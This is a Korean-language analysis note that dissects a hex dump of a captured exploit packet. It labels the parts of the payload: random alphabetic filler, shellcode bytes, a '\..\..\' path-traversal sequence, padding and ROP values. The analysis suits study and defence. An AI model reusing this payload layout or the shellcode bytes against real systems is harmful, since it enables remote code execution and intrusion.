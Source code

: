 ```
0210   9d da 1a c9 8d 90 42 1a 95 1a 90 41 18 d5 b5 b5   ......B....A....
0220   ca ca f0 c8 cb c0 6e 71 c9 ce cb 1a 83 78 11 6e   ......nq.....x.n
0230   6e 6e cc f9 a2 a3 91 91 f9 e6 e2 a3 ce c5 f9 dd   nn..............
0240   e6 b7 96 18 79 6e 41 29 01 90 91 91 b8 55 c5 c1   ....ynA).....U..
0250   f9 b8 11 fa 91 6e 44 fb 9b f9 51 39 a9 f7 f9 93   .....nD...Q9....
0260   91 80 cd 18 77 c1 c1 c1 c1 d1 c1 d1 c1 f9 7b 9e   ....w.........{.
0270   4e 71 6e 44 06 fb 81 c7 c6 f9 08 34 e5 f0 6e 44   NqnD.......4..nD
0280   14 51 e5 9d 6e df 99 e4 7d f9 61 24 33 c7 6e 44   .Q..n...}.a$3.nD
0290   fb 91 fb 95 c7 c6 f9 93 48 59 ce 6e 44 1a a7 fb   ........HY.nD...
02a0   d1 f9 91 81 91 91 c7 fb 91 f9 c9 35 c2 74 6e 44   ...........5.tnD
02b0   02 c2 fb 91 c7 c2 c6 f9 93 48 59 ce 6e 44 90 52   .........HY.nD.R
02c0   b8 57 e4 7f 52 65 30 5c 00 2e 00 2e 00 5c 00 2e   .W..Re0\.....\..
02d0   00 2e 00 5c 00 41 00 4a 00 4c 00 59 00 52 00 48   ...\.A.J.L.Y.R.H
02e0   00 5a 00 00 80 01 00 86 12 8a 6f 10 01 04 01 01   .Z........o.....
02f0   01 01 01 01 01 01 01 96 e7 8a 6f 9c e7 8a 6f 90   ..........o...o.
0300   5a 59 c3 96 d2 88 6f                              ZY....o
```

위에서 exploit 코드 분석 결과 페이로드는 `\{알파벳랜덤값100자리문자열}{셸코드}\..\..\{패딩}{rop값}{알파벳랜덤값2자리문자열}{널바이트두개}`과 같은 형태라는 것을 알고 있다. 

- `\`는 유니코드의 바이트코드로 표현하면 0x005c 이다. 패킷상에서는 리틀엔디언이므로 `5c 00` 로 표현되는 걸로 보인다. 
- 패킷덤프의 0x00ca 주소부터 시작하는 부분의 문자열(epfPY~) 이 알파벳랜덤값100자리문자열이 들어가는 부분이다. 1번 붉은 박스에 해당하는 부분이다. 정확히 100개의 연속된 알파벳이 보인다. 
- 그리고 이어지는 2번 박스부분이 셸코드로 추정된다. 
- 3번 박스를 보면 셸코드에 `\..\..\` 가 보인다. 주소 0x02c8부터 시작되는 `5c 00 2e 00 2e 00 5c 00 2e 00 2e 00 5c 00` 부분이다. 
- 이어지는 부분은 나머지 패딩, rop, 알파벳랜덤값2자리문자열, 널바이트두개로 이루어진 부분으로 보인다. 정확히 어디부터 어디까지인지는 잘 모르겠다. 왜인지는 모르겠지만 패킷의 마지막이 널바이트 두개 (0x0000)로 끝나고 있지도 않다. 
